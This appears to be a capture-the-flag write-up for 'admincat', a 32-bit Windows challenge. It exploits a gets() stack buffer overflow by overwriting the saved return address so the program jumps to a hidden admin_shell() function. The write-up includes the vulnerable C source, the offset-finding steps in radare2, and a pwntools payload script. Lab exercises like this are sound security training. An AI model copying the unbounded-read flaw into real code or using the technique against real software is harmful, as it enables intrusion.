 # **admincat**

this is an exe so it will be different from the rest but still the concept is same

## Goal

Call the hidden function `admin_shell()` (which runs `type flag.txt`) by overflowing the local buffer and overwriting the saved return address.

---

## Vulnerable source

Key parts of `source.c`:

```c
#define DEFAULT_LEN 16

void admin_shell(void) {
    system("type flag.txt");
}

int main(void) {
    char buff[DEFAULT_LEN] = {0};
    gets(buff);                // UNBOUNDED read — classic buffer overflow
    for (int i = 0; i < DEFAULT_LEN; i++) buff[i] = toupper(buff[i]);
    printf("%s\n", buff);
}
```

`gets()` reads until newline / EOF without bounds checking ⇒ **stack-based buffer overflow**. The program compiles as 32‑bit PE and `admin_shell` exists in the binary — we can overwrite the saved return address to point to it.




## Finding the correct overwrite offset

You must discover how many bytes from the start of `buff` to the saved return address.

### Using ragg2

we can find the offset by using `ragg2` tool and `r2` 

to genetrate the cyclick pattern use the following commands 


```bash
ragg2 -P 40 -r
```

![ragg](./img/ragg.png)

now we will open the binary in `r2` and find the offset at which the return address is overwritten eventually giving us the offset of the return address

![first](./img/first.png)

now lets use the `wopO` command to find the offset

![offset](./img/offset.png)



---

## Crafting the payload

* Offset to saved return address: **32** bytes.
* Target return address (`admin_shell`): **0x001e1500** (32-bit).
* Little-endian packing: `p32(0x001e1500)`.

```python
from pwn import *

OFFSET = 32                 
ADMIN_ADDR = 0x001e1500 
             
payload = b'A'*OFFSET + p32(ADMIN_ADDR)
open('payload.bin','wb').write(payload)
```

this will write the bytes in the payload.bin file which we can then use in windows to get too the function


---

## Running the exploit (PowerShell)


i will use the subprocess runner:

```python
import subprocess

with open("payload.bin", "rb") as f:
    payload = f.read()

subprocess.run([r".\chall.exe"], input=payload)

```

Then:

```powershell
python3 win.py
```

![result](./img/result.png)

and there we go we got the flag

---

## Note

pwntools is flaky on native Windows — run it in WSL/VM or from Linux for reliability.
Exploit payloads contain non‑printable bytes (e.g. `\x00`) so clipboard pastes will corrupt them.
Never paste payloads into a terminal; use a binary file and pipe/redirect (e.g. `type payload.bin | chall.exe` or Start‑Process with `-RedirectStandardInput`).
Alternatively use a small Python runner that reads `payload.bin` and does `subprocess.run([r".\\chall.exe"], input=payload)`.
If testing a PE from Linux, run the exe under `wine` with pwntools or test natively on Windows to avoid platform quirks. but i would not recommend wine